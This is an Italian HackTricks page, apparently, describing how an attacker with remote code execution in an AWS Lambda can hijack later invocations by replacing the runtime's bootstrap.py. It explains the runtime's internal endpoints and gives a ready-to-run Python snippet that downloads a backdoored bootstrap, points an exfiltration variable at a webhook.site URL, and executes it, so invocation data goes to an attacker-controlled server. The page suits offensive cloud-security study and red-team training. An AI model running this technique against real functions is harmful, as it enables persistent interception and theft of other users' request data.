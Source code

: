# AWS - Rubare le Richieste Lambda

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

## Flusso Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** è un processo esterno al contenitore che **invia** **invocazioni** al processo **init**.
2. Il processo init ascolta sulla porta **9001** esponendo alcuni endpoint interessanti:
* **`/2018-06-01/runtime/invocation/next`** – ottieni il prossimo evento di invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – restituisci la risposta del gestore per l'invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – restituisci un errore di esecuzione
3. **bootstrap.py** ha un ciclo che ottiene invocazioni dal processo init e chiama il codice dell'utente per gestirle (**`/next`**).
4. Infine, **bootstrap.py** invia a init la **risposta**

Nota che bootstrap carica il codice dell'utente come modulo, quindi qualsiasi esecuzione di codice eseguita dal codice dell'utente avviene effettivamente in questo processo.

## Rubare le Richieste Lambda

L'obiettivo di questo attacco è far eseguire al codice dell'utente un processo **`bootstrap.py`** malevolo all'interno del processo **`bootstrap.py`** che gestisce la richiesta vulnerabile. In questo modo, il processo **bootstrap malevolo** inizierà a **comunicare con il processo init** per gestire le richieste mentre il bootstrap **legittimo** è **intrappolato** a eseguire quello malevolo, quindi non chiederà richieste al processo init.

Questo è un compito semplice da raggiungere poiché il codice dell'utente viene eseguito dal legittimo processo **`bootstrap.py`**. Quindi l'attaccante potrebbe:

* **Inviare un risultato falso dell'attuale invocazione al processo init**, così init pensa che il processo bootstrap stia aspettando ulteriori invocazioni.
* Deve essere inviata una richiesta a **`/${invoke-id}/response`**
* L'invoke-id può essere ottenuto dallo stack del legittimo processo **`bootstrap.py`** utilizzando il modulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (come [proposto qui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) o semplicemente richiedendolo di nuovo a **`/2018-06-01/runtime/invocation/next`** (come [proposto qui](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Eseguire un **`boostrap.py`** malevolo che gestirà le prossime invocazioni
* Per motivi di furtività, è possibile inviare i parametri delle invocazioni lambda a un C2 controllato dall'attaccante e poi gestire le richieste come al solito.
* Per questo attacco, è sufficiente ottenere il codice originale di **`bootstrap.py`** dal sistema o da [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), aggiungere il codice malevolo ed eseguirlo dall'attuale invocazione lambda.

### Passi dell'Attacco

1. Trova una vulnerabilità **RCE**.
2. Genera un **bootstrap** **malevolo** (es. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Esegui** il bootstrap malevolo.

Puoi facilmente eseguire queste azioni eseguendo:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Per ulteriori informazioni controlla [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Riferimenti

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
